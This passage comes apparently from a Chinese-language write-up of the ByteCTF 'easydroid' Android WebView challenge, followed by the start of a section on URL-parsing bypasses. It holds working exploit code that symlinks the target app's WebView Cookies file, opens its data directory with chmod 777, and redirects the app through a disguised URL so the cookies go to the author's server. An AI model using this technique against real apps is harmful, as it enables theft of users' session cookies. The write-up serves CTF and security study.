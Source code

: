   
攻击代码：  
```
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);
    symlink();
    Intent intent \= new Intent();
    intent.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.MainActivity");
    intent.setData(Uri.parse("http://toutiao.com@****/easydroid.html"));
    startActivity(intent);
}


private String symlink() {
try {
    String root \= getApplicationInfo().dataDir;
    String symlink \= root + "/symlink.html";
    String cookies \= getPackageManager().getApplicationInfo("com.bytectf.easydroid", 0).dataDir + "/app_webview/Cookies";

    Runtime.getRuntime().exec("rm " + symlink).waitFor();
    Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();
    Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();

    return symlink;
} catch (Throwable th) {
    throw new RuntimeException(th);
}
}
```  
  
  
通过Intent重定向，首先加载exp.html来设置cookie，然后再加载symlink.html，将所要Cookies内容返回给我们的服务器。最终达到窃取Cookies的目的。注意，这里要保证setAllowFileAccess(true)，API 29以下默认为true，否则会利用失败。  
  
   
  
效果显示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiaks3cMLIG5ZpGnicMOVM8P7MOibubeiaEQZu4MoaKQpkBgSOTGy5Kicr0vTA/640?wx_fmt=png "")  
###   
### 3.URL配置漏洞  
  
****  
在WebView漏洞中，许多URL可以通过各种方式去绕过验证，从而引起各式各样的漏洞  
  
   
  
URL的结构如下：  
```

scheme://login:password@address:port/path/to/resource/?query_string#fragment
```  
- scheme不区分大小写，包括http、https、file、ftp等等,:之后的“//”可省略，例如http:www.qq.com, 此外，多数浏览器在scheme之前加空格也是可以正常解析的  
  